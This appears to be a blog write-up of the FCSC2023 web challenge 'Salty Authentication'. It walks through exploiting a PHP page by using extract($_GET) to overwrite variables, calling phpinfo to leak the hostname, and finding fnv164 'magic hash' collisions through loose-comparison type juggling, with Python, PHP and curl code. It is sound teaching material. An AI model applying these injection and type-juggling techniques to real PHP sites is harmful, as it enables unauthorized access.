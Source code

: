 ```yaml
---
title: CTFs | FCSC2023 | Web | Salty Authentication
author: Stillwolfing
date: 2023-05-05
categories: [CTFs, FCSC2023, Web]
tags: [CTFs, FCSC2023, Web, Magic Hash, Type Juggling]
permalink: /CTFs/FCSC2023/web/salty_authentication
---
```


Here is the context:

![context](/assets/img/CTFs/FCSC2023/web/salty_authentication/context.png)

I did not solved this challenge during the CTF, but I solved it after.

Here is the main page:

![main_page](/assets/img/CTFs/FCSC2023/web/salty_authentication/main_page.png)


We are presented the php code of the page:

```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The flag is included from flag.php.

### The flag

```php
if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    }
```

To reveal the flag, we need to have the hash of the secret equal to the hash of the password.

We can define some variables in the url thanks to the extract($_GET). So, we can define the $password variable.

First we have to pass this test:

```php
if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret)
```

We can see that $password has to be set. It has to be the same length as $secret. And it has to be different from $secret.

As $password has to be different from $secret, we cannot use the same string for both. So, we have to find a hash collision (different values, same hash).


$secret is the concatenation of the hostname and the salt which is a random string of 12 bytes.

## Hostname length

The first thing that came to my mind is to use ```extract($_GET)``` to rewrite the $salt variable. Unfortunately, we cannot rewrite the $secret variable as it is defined after the extract.

With this, we can pass the first test by finding the length of the hostname.

To do this, we rewrite the $salt variable as an empty string. Then, we add a character to the $password variable until we get the "Wrong password!" message.

```python

import requests
import time

password = ""
salt=""
counter = 0

while 1:
    counter += 1
    password += "1"
    print(counter)

    url = f"https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password={password}"

    r = requests.get(url)

    if "Wrong password!" in r.text:
        print(f"Hostname length: {counter}")
        break
    
    time.sleep(5)
```

Output:
![hostname_length](/assets/img/CTFs/FCSC2023/web/salty_authentication/hostname_length.png)

The hostname length is 12.

## Hostname

Now we need to find the hostname. What we can notice is this:

```php
else {
        echo('Wrong password!');
        exit($log_attack());
}
```

If the hashes are different, we get the "Wrong password!" message. And the $log_attack() function is called.

As log_attack is a variable, we can rewrite it with extract($_GET). So, we can define the $log_attack() function called when the hashes are different.

Let's call phpinfo to get the hostname:

url: https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=123456789012&log_attack=phpinfo

Output:
![phpinfo](/assets/img/CTFs/FCSC2023/web/salty_authentication/phpinfo.png)

We've got the hostname: 9be4a60f645f

## Type juggling

The == operator is used to compare the hashes. It's a weak comparison. It's a type juggling comparison.

With this operator, if a comparaison is made between a string and an integer, the string is converted to an integer.

So, if the string begins with "0e", it will be converted to 0. It's a magic hash!

[type juggling article](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

[magic hashes article](https://github.com/spaze/hashes)

## Magic hash

Let's try to find a magic hash for the secret. The secret has to begin with the hostname then we can use the salt to change the value.

Code to find a magic hash:

```php
<?php

$counter =0;
while(1){
    $salt = bin2hex(random_bytes(6));
    $secret = "9be4a60f645f" . $salt;
    $counter+=1;
    $hash = hash('fnv164',$secret);

    if ($hash==0) {
        echo ("secret: ".$secret."\n");
        echo ("salt: ".$salt."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![salt](/assets/img/CTFs/FCSC2023/web/salty_authentication/salt.png)

Now let's find a magic hash for the password with the same length:

```php
<?php

$counter =0;
while(1){
    $password = bin2hex(random_bytes(12));
    $counter+=1;
    $hash = hash('fnv164',$password);

    if ($hash==0) {
        echo ("password: ".$password."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![password](/assets/img/CTFs/FCSC2023/web/salty_authentication/password.png)

Ok so if put salt="70f9186fa35c" and password="8215d358c2d73169d5895016", the secret and the password will have the same length while having different values so we can pass the first test.

As both hashes begins with "0e", they will be converted to 0. So, the hashes will be equal and we will get the flag.

```bash
curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=70f9186fa35c&password=8215d358c2d73169d5895016"
```

We get the flag!
![flag](/assets/img/CTFs/FCSC2023/web/salty_authentication/flag.png)

